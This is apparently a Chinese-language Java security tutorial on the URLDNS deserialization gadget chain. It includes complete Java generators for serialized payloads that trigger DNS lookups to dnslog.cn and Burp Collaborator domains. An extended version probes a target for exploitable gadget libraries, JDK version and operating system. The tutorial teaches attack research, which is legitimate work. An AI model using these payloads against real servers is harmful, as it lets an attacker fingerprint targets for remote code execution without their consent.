

# URLDNS链

Gadget：
```
/**
 * Gadget Chain:
 *  HashMap.readObject() -> putVal(....) -> hash()
 *      URL.hashCode() 此处判断hashCode必须是-1，否则不会继续往下走
 *          URLStreamHandler.hashCode() -> getHostAddress() -> InetAddress.getByName()
 */
```
HashMap.readObject()的末尾一行：
``` 
putVal(hash(key), key, value, false, false);
```
调用了hash方法，该方法用来计算hash：
``` 
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```
key如果是URL对象，就会调用URL.hashCode。
```java
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```
这里有两个点要注意，第一是hashCode，第二是handler.hashCode。

---
先看第一点

URL.hashCode()会对hashCode进行判断，如果不为-1，就会return，无法继续向下执行，Gadget从而中断：
因此包括ysoserial在内的项目在生成URL对象后会将其hashCode设定为-1：
```java
Field hashCodeField = URL.class.getDeclaredField("hashCode");
hashCodeField.setAccessible(true);
hashCodeField.set(url, -1);
```
但是为什么要在将URL对象放入hashMap以后，再改hashCode呢？如果在new URL对象以后直接给hashCode赋值行不行？

不行，这是因为HashMap在put以后，会调用HashMap.hash->URL.hashCode方法计算hash，那么代码流程就变成了：
```java
// new URL
URL url = new URL(null, "http://12.saitu4.dnslog.cn", URLStreamHanderObj);

// 给hashCode赋值
Field hashCodeField = URL.class.getDeclaredField("hashCode");
hashCodeField.setAccessible(true);
hashCodeField.set(url, -1);

HashMap hashMap = new HashMap();
hashMap.put(url, "");  // 重新计算hashCode并赋值
```
于是我们赋值-1就失效了，最后在反序列化时，也就不会进入Gadget流程。

---
再看第二点。

可以看到hashCode中调用了handler.hashCode，如果handler是URLStreamHandler，就会调用URLStreamHandler.hashCode:
```java
// u 即URL对象
InetAddress addr = getHostAddress(u);
```
后续是DNS请求，就不跟进了。


---

由于HashMap的put方法会调用hash：
```java
public V put(K key, V value) {
    return putVal(hash(key), key, value, false, true);
}
```
本质上跟反序列化时过程是一样的，这意味着在生成POC阶段，就会进行一次DNS解析，从而污染DNSlog，因此需要避免这种现象，如何避免？

我们来看put方法调用过程：
``` 
HashMap.put() -> HashMap.hash(key) 
    URL.hashCode()
        URLStreamHandler.hashCode() -> getHostAddress(u)
            InetAddress.getByName(host)
```
如果能够打断这个过程，就不会影响DNS记录。

由于URLStreamHandler是个抽象类，所以我们在使用时，要么new一个子类，要么自己实现一个子类。

ysoserial作者的选择是自己写一个子类，并重写getHostAddress方法来打断。
```java
static class SilentURLStreamHandler extends URLStreamHandler {

    protected URLConnection openConnection(URL u) throws IOException {
            return null;
    }

    protected synchronized InetAddress getHostAddress(URL u) {
            return null;
    }
}
```
openConnection因为是抽象方法，必须要实现，本身没什么用：
```java
abstract protected URLConnection openConnection(URL u) throws IOException;
```

不过我的选择是重写hashCode：
```java
@Override
protected int hashCode(URL u) {
    return -1;
}
```
也能打断后续dns解析步骤，不过，他还有其他的妙用，还记得前面说过的，HashMap.put会重新计算hash吗？他是调用URLtreamHandler.hashCode来实现的：
```java
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```
那我重写了hashCode方法，直接return -1，不就不必在后续手动给hashCode赋值了吗。

完整代码如下：
```java
import java.io.*;
import java.lang.reflect.Field;
import java.net.*;
import java.util.HashMap;

public class GenURLDNS {
    /**
     * Gadget Chain:
     * HashMap.readObject() -> putVal(....) -> hash()
     * URL.hashCode() 此处判断hashCode必须是-1，否则不会继续往下走
     * URLStreamHandler.hashCode() -> getHostAddress() -> InetAddress.getByName()
     */
    public static void main(String[] args) throws Exception {
        URLStreamHandler URLStreamHanderObj = new URLStreamHandler() {
            @Override
            protected URLConnection openConnection(URL u) throws IOException {
                return null;
            }

            @Override
            protected int hashCode(URL u) {
                return -1;
            }
        };
        URL url = new URL(null, "http://13.2f882y.dnslog.cn", URLStreamHanderObj);

        HashMap hashMap = new HashMap();
        hashMap.put(url, "");

//        Field hashCodeField = URL.class.getDeclaredField("hashCode");
//        hashCodeField.setAccessible(true);
//        hashCodeField.set(url, -1);
//        序列化
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);
        byte[] bytes = byteArrayOutputStream.toByteArray();

//        反序列化
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

}
```
见于GenURLDNS.java。

# URLDNS探测Class


URLDNS链中，我们给HashMap增加key-value时，value可以是随意值，但实际上，如果value是一个class对象时，在HashMap反序列化时，会对key和value分别反序列化，反序列化流程大致如下：
```java
HashMap.readObject() -> s.readObject() 
        ObjectInputStream.readObject -> readObject0 -> readClass -> readClassDesc -> readNonProxyDesc -> resolveClass
            Class.forName()
```

其中，readObject0在解析反序列化数据后，判断是不是类，如果是，则readClass：
```java
private Object readObject0(boolean unshared) throws IOException {
    ...
    byte tc;
    ....
    switch (tc) {
        ...
        case TC_CLASS:
            return readClass(unshared);
    ....
```
最后一路运行下去，目的在于还原这个class，但如果这个类不存在，则会抛出：ClassNotFoundException，中断后面的所有代码运行流程，也就不会进行dns解析过程了。
而如果这个类存在，能够成功加载类，代码就会正常运行下去，最后完成dns解析请求。

因此这个思路可以用在黑盒场景下对目标反序列化接口的Gadget可用性探测。

demo如下：
```java
URLStreamHandler URLStreamHanderObj = new URLStreamHandler() {
    @Override
    protected URLConnection openConnection(URL u) throws IOException {
        return null;
    }

    @Override
    protected int hashCode(URL u) {
        return -1;
    }
};
URL url = new URL(null, "http://13.389d0aj777taqlvgkm944affq6wwkl.burpcollaborator.net", URLStreamHanderObj);

HashMap hashMap = new HashMap();
hashMap.put(url, com.alibaba.fastjson.JSON.class);

ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream(file));
objectOutputStream.writeObject(hashMap);
```

注意，在自己写代码实验时，应该用两台电脑（或两个项目）来分别完成HashMap序列化与反序列化调试。

完整代码见于ScanClass.java，用这个代码测试可以在同一个项目上完成序列化与反序列化。只是需要一些手动修改：
1. 实际测试时需要把序列化与反序列化分开测试。
2. 序列化时，把ScanClass.java中这一行注释掉：
```java
unserial("JSON.ser");
```
3. 然后点击运行ScanClass#main()，此时会在项目根目录生成JSON.ser。
4. 反序列化时，把pom.xml中fastjson的依赖注释掉，然后加载Maven更改，并把ScanClass.java中的这两行注释掉：
```java
serial("JSON.ser");
// 和
hashMap.put(url, com.alibaba.fastjson.JSON.class);
```
否则IDEA会编译不通过。  
5. 点击运行ScanClass#main()

# URLDNS探测Gatget（强化版）

上面的思路很好，但还有几个问题：
1. 如果要对大部分常见Gadget进行探测，岂不是要发很多请求，能否将所有请求合并到一起？
2. 如果是SUID不一致问题，以CB2为例，Commons-BeanUtils-1.8和Commons-BeanUtils-1.9的SUID不一致，但命名空间是一样的，正常情况下无法同时构造两个版本的class

对于第一个问题，解决办法就是把所有HashMap放进LinkedList，因为其会捕获Exception，所以某一个节点反序列化失败并不会影响其他节点的反序列化。
对于第二点，可以通过javassist来实现。

完整代码如下：
```java
import javassist.ClassPool;
import javassist.CtClass;

import java.io.*;
import java.net.URL;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.util.LinkedList;

public class ScanClassOneForAll {
    public static void main(String[] args) throws Exception {
        serial("JSON.ser");
//        unserial("JSON.ser");
    }

    public static String domain = "8gpi8frcfc1fyq3lsrh9cfnkyb43ss.burpcollaborator.net";

    public static void serial(String file) throws Exception {

        LinkedList<Object> linkedList = new LinkedList<Object>();
        // CommonsCollections1/3/5/6/7链,需要<=3.2.1版本
        linkedList.add(getHashMap("cc31or321","org.apache.commons.collections.functors.ChainedTransformer"));
        linkedList.add(getHashMap("cc322","org.apache.commons.collections.ExtendedProperties$1"));

        // CommonsCollections2/4链,需要4-4.0版本
        linkedList.add(getHashMap("cc40", "org.apache.commons.collections4.functors.ChainedTransformer"));
        linkedList.add(getHashMap("cc41", "org.apache.commons.collections4.FluentIterable"));

        // CommonsBeanutils2链,serialVersionUID不同,1.7x-1.8x为-3490850999041592962,1.9x为-2044202215314119608
        linkedList.add(getHashMap("cb17", "org.apache.commons.beanutils.MappedPropertyDescriptor$1"));
        linkedList.add(getHashMap("cb18x", "org.apache.commons.beanutils.DynaBeanMapDecorator$MapEntry"));
        linkedList.add(getHashMap("cb17", "org.apache.commons.beanutils.BeanIntrospectionData"));

        // c3p0，serialVersionUID不同,0.9.2pre2-0.9.5pre8为7387108436934414104,0.9.5pre9-0.9.5.5为7387108436934414104
        linkedList.add(getHashMap("c3p092x", "com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase"));
        linkedList.add(getHashMap("c3p092x", "com.mchange.v2.c3p0.test.AlwaysFailDataSourc"));

        // AspectJWeaver,需要cc31
        linkedList.add(getHashMap("ajw", "org.aspectj.weaver.tools.cache.SimpleCache"));

        // bsh,serialVersionUID不同,2.0b4为4949939576606791809,2.0b5为4041428789013517368,2.0.b6无法反序列化
        linkedList.add(getHashMap("bsh20b4", "bsh.CollectionManager$1"));
        linkedList.add(getHashMap("bsh20b5", "bsh.engine.BshScriptEngine"));
        linkedList.add(getHashMap("bsh20b6", "bsh.collection.CollectionIterator$1"));

        // Groovy,1.7.0-2.4.3,serialVersionUID不同,2.4.x为-8137949907733646644,2.3.x为1228988487386910280
        linkedList.add(getHashMap("groovy1702311", "org.codehaus.groovy.reflection.ClassInfo$ClassInfoSet"));
        linkedList.add(getHashMap("groovy1702311", "groovy.lang.Tuple2"));
        linkedList.add(getHashMap("groovy1702311", "org.codehaus.groovy.runtime.dgm$1170"));

        // Becl,JDK<8u251
        linkedList.add(getHashMap("bcel", "com.sun.org.apache.bcel.internal.util.ClassLoader"));

        // JDK<=7u21
        linkedList.add(getHashMap("Jdk7u21", "com.sun.corba.se.impl.orbutil.ORBClassLoader"));

        // 7u25<=JDK<=8u20,虽然叫JRE8u20其实JDK8u20也可以,这个检测不完美,8u25版本以及JDK<=7u21会误报,可综合Jdk7u21来看
        linkedList.add(getHashMap("Jdk8u20", "javax.swing.plaf.metal.MetalFileChooserUI$DirectoryComboBoxModel$1"));

        // windows/linux版本判断
        linkedList.add(getHashMap("linux", "sun.awt.X11.AwtGraphicsConfigData"));
        linkedList.add(getHashMap("windows", "sun.awt.windows.WButtonPeer"));

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream(file));
        objectOutputStream.writeObject(linkedList);
    }

    public static HashMap getHashMap(String flag, String classname) throws Exception{
        URLStreamHandler URLStreamHanderObj = new URLStreamHandler() {
            @Override
            protected URLConnection openConnection(URL u) throws IOException {
                return null;
            }

            @Override
            protected int hashCode(URL u) {
                return -1;
            }
        };

        HashMap hashMap = new HashMap();
        hashMap.put(new URL(null, "http://" + flag + "." + domain, URLStreamHanderObj),
                makeClass(classname)
        );

        return hashMap;
    }

    public static void unserial(String file) throws Exception {
        FileInputStream fileInputStream = new FileInputStream(file);
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        objectInputStream.readObject();
    }

    public static Class makeClass(String clazzName) throws Exception {
        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.makeClass(clazzName);
        Class clazz = ctClass.toClass();
        ctClass.defrost();
        return clazz;
    }
}
```

效果如下：



# 参考文献

* P牛--Java安全漫谈
* [构造java探测class反序列化gadget](https://mp.weixin.qq.com/s/KncxkSIZ7HVXZ0iNAX8xPA)